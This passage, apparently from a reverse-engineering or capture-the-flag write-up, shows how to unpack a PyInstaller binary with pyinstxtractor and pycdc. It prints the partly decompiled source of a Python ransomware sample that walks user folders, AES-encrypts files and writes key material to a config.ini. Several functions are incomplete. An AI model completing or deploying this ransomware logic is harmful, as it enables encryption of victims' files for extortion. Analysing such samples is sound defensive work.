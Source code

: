 Inorder to reverse the binary, we can use [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor.git) to the get the bytecode/.pyc and then try to convert it to source code/.py using [pycdc](https://github.com/zrax/pycdc).

Using pyinstxtractor, we can get `TwCSXWiv.pyc` and then using pycdc on the .pyc file, we get,

```py
# Source Generated with Decompyle++
# File: ware.pyc (Python 3.10)

import winreg
import time
import os
import sys
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding
import time
import configparser
key = os.urandom(32)
iv = os.urandom(16)

def encrypt(filepath):
Unsupported opcode: WITH_EXCEPT_START
    with open(filepath, 'rb') as file:
        data = file.read()
        None(None, None, None)
# WARNING: Decompyle incomplete

def traverse_folder():
Unsupported opcode: JUMP_IF_NOT_EXC_MATCH
    curpath = os.getcwd()
    root = 'C:\\Users'
    excluded = [
        'C:\\Users\\Public',
        'C:\\Users\\All Users',
        'C:\\Users\\Default User']
# WARNING: Decompyle incomplete

def config_file():
Unsupported opcode: WITH_EXCEPT_START
    downloads_folder = os.path.join(os.environ['USERPROFILE'], 'Downloads')
    key = 'your_key_value'
    iv = 'your_iv_value'
    config = configparser.ConfigParser()
    config['ransomkey'] = {
        'key': key }
    config['ransomiv'] = {
        'iv': iv }
    config_file_path = os.path.join(downloads_folder, 'config.ini')
# WARNING: Decompyle incomplete

if __name__ == '__main__':
    traverse_folder()
    config_file()
    return None
```
